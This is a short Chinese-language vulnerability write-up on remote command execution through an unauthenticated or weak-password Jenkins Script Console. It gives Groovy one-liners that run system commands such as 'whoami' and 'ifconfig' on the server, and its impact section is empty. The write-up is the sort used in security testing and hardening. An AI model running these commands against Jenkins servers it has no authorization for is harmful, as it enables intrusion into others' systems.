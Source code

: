 ```yaml
---
title: "Jenkins 功能未授权访问导致的远程命令执行漏洞"
id: zhfly2987
---
```


# Jenkins 功能未授权访问导致的远程命令执行漏洞

## 一、漏洞简介

Jenkins管理登陆之后，后台”系统管理”功能，有个”脚本命令行的”功能，它的作用是执行用于管理或故障探测或诊断的任意脚本命令，利用该功能，可以执行系统命令，该功能实际上Jenkins正常的功能，由于很多管理账号使用了弱口令，或者管理后台存在未授权访问，导致该功能会对Jenkins系统服务器产生比较严重的影响和危害。

## 二、漏洞影响

## 三、复现过程

找到“系统管理”——“脚本命令行”。

![image](../img/4c44aa492284a0a1168d735ae152d2cb.png)

![image](../img/5ccfc25436827c277fa36d533dfab159.png)

输入任意的Groovy脚本并在服务器上执行它。对于故障排除和诊断很有用。使用’println’命令查看输出（如果使用System.out，它将输出到服务器的标准输出，很难看到。）示例：

```
println(Jenkins.instance.pluginManager.plugins) 
```

在脚本命令行中输入下面的语句，即可执行相应的命令：

```
println "whoami".execute().text 
```

![image](../img/771481d41d471ea2221290c2e365e3cf.png)

```
println "ifconfig".execute().text 
```

![image](../img/bcd27e5fe0b5ebf38ae9d55bfe5f839e.png)